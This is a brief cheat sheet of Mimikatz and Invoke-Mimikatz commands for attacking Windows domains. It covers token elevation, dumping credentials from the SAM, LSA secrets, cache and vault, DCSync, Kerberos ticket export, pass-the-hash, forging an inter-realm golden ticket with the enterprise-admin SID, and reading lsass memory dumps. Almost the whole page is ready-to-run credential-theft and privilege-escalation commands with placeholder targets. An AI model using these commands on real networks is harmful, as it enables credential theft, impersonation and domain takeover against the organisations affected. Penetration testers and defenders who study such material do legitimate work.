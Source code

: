 ### source 
https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1  
https://github.com/gentilkiwi/mimikatz  

### elevate to system ("token::revert" to drop token)
```
Invoke-Mimikatz -Command '"token::elevate"'
```

### dump credentials
```
Domain Cached Credential - "lsadump::cache"
Security Hives - "lsadump::sam"
Machine Accounts "lsadump::secrets"
Local Security Authority Substem Service - "sekurlsa::logonPasswords full"
Data Protection API - "vault::cred"
```

### execute DCSync for single user
```
Invoke-Mimikatz -Command '"lsadump::dcsync /domain:<domain> /user:<user>"'
```

### export all tickets from memory
```
Invoke-Mimikatz -Command '"kerberos::list /export"'
```

### pass the hash
```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<ntlmHash>"'
```

### inter realm golden ticket - can be done offline, since domain controller connection is not necessary (/enind = validity period 60 minutes, /user can be fictitious, -519 is the SID of enteprise admin)
```
Invoke-Mimikatz -Command '"kerberos::golden /user:<attackerAccount> /domain:<compromisedDomain> /sid:<sidCompromisedDomain> /sids:<sidTargetDomain>-519 /krbtgt:<ntlmHashKrbTgt> /endin:60"'
```

### dump credentials from lsass dump
```
mimikatz.exe
mimi> sekurlsa::minidump <file>.dmp
mimi> sekurlsa::logonPasswords full
```

### write output of command to file
```
mimi> log <file>.txt
```


